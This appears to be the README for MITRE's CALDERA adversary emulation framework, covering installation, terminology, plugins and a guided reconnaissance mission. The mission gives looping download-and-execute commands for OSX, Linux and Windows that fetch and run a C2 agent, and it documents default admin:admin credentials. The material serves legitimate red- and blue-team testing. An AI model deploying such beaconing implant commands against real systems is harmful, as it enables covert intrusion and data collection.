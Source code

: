 # CALDERA

CALDERA is an automated adversary emulation system, built on the [MITRE ATT&CK™ framework](https://attack.mitre.org/), 
that performs post-compromise adversarial behavior inside computer networks. It is intended for both red and blue teams.

Python 3.5.3+ is required to run this system.

## Installation

Start by cloning this repository recursively. This will pull all available plugins. 
```
git clone https://github.com/mitre/caldera.git --recursive
```

From the root of this project, install the PIP requirements.
```
pip install -r requirements.txt
```

Then start the server.
```
python server.py
```

## Versions

Bleeding-edge code can be run by using the latest master branch source code. Stable versions are tagged
by major.minor.bugfix numbers and can be used by cloning the appropriate tagged version:
```
git clone --branch 2.1.0 https://github.com/mitre/caldera.git --recursive
```

Check the GitHub releases for the most stable release versions.

> **IMPORTANT**: The core system relies on plugins (git submodules). If you are unfamiliar with this concept and want to run the bleeding-edge code, a "git pull" on this code will likely not be sufficient. You will also need to update the submodules to ensure all plugins are current. One way to do this is by using an alias, such as:
```alias tig="git reset --hard origin/master && git checkout master && git reset --hard origin/master && git pull && git submodule foreach git checkout master && git submodule foreach git pull"```

> *NOTE*: The functionality and schema used by the first release of CALDERA is now stored within the *ADVERSARY* 
plugin. This plugin is loaded automatically with the rest of the submodules, but will not be loaded in 
CALDERA at runtime unless added to the list of submodules in *conf/local.yml*. More information about the *ADVERSARY*
 plugin can be found at the repository for the [Adversary plugin](https://github.com/mitre/adversary).

## Terminology

CALDERA works by attaching abilities to an adversary and running the adversary in an operation. 

* **Ability**: A specific task or set of commands mapped to ATT&CK Tactics and Techniques, written in any language
* **Adversary**: A threat profile that contains a set of abilities, making it easy to form repeatable operations 
* **Agent**: An individual computer running a CALDERA agent, such as the [54ndc47 plugin](https://github.com/mitre/sandcat)
* **Group**: A collection of agents
* **Operation**: A start-to-finish execution of an adversary profile against a group

CALDERA ships with a few pre-built abilities and adversaries with the [Stockpile plugin](https://github.com/mitre/stockpile), 
but it's easy to add your own. 

## Plugins

CALDERA is built using a plugin architecture on top of the core system (this repository). Plugins are 
software components that plug new features and behavior into the core system. Plugins reside
in the plugins/ directory. For more information on each plugin, refer to their respective README files.

Load plugins into the core system by listing them in the conf/local.yml file, then restart
CALDERA for them to become available.

## Planning

When running an operation, CALDERA hooks in a planning module that determines in which order to run each ability. 
An operation executes abilities within phases, but if there are multiple abilities in a phase, the planning module
determines which to run first. The planning module can be changed in the configuration file, local.yml.

## Getting started

To understand CALDERA, it helps to run an operation. Below are pre-built missions you can follow
along with to understand the system. These missions will assume CALDERA is running locally on a laptop.

### Mission #1: Nosy Neighbor

> Perform reconnaissance on a compromised laptop. Your employer needs a list of the laptop user’s preferred WIFI 
networks. Grab this list, collecting anything else along the way, then get out. Quickly. Leave no trace. 
There is one caveat: the laptop’s AV scans the machine in full every minute. You must complete this mission in 
less than 60 seconds. 

Start by booting up the core system.
```
python server.py
```

Then start a 54ndc47 agent on the same machine by opening a terminal and pasting in the delivery command for
your operating system.

**OSX**:
```
while true; do curl -sk -X POST -H 'file:sandcat-darwin' https://localhost:8888/file/download > /tmp/sandcat-darwin && chmod +x /tmp/sandcat-darwin && /tmp/sandcat-darwin https://localhost:8888 my_group; sleep 60; done
```

**Linux**:
```
while true; do curl -sk -X POST -H 'file:sandcat-linux' https://localhost:8888/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux https://localhost:8888 my_group; sleep 60; done
```

**Windows**:
```
while($true) {[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$url="https://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("file","sandcat.exe");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe https://localhost:8888 my_group; sleep 60}
```

Move to a browser, at https://localhost:8888, logging in with the credentials admin:admin. 
Click into the Chain plugin and use the "Manage Operations" section to fire off an operation using the "nosy neighbor" adversary. 

Once the operation is complete, compare the execution time of the first and last commands. Was
the mission a success? Did the adversary run without a trace? Can you figure out why the 
abilities are being run in the order they are?

## Developers

Be a ninja committer: changes should aim for the smallest change set possible to achieve the goal. 
Additionally, changes should be consistent with the general format and design of what already exists.

### GIT flow

We use the basic feature branch GIT flow. Create a feature branch off of master and when ready, submit a merge 
request. Make branch names and commits descriptive. A merge request should solve one problem,
not many. 

## Licensing

In addition to CALDERA's open source capabilities, MITRE maintains several in-house CALDERA plugins that offer 
more advanced functionality. For more information, or to discuss licensing opportunities, please reach out to 
caldera@mitre.org or directly to MITRE's Technology Transfer Office at 
https://www.mitre.org/about/corporate-overview/contact-us#technologycontact.

## Related MITRE Work

[BRAWL Game](https://github.com/mitre/brawl-public-game-001) - Data set created by the BRAWL project representing
one CALDERA operation with data collected by Microsoft Sysmon and other sensors.

[CASCADE](https://github.com/mitre/cascade-server) - Prototype blue team analysis tool to automate investigative work.

## Acknowledgements

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
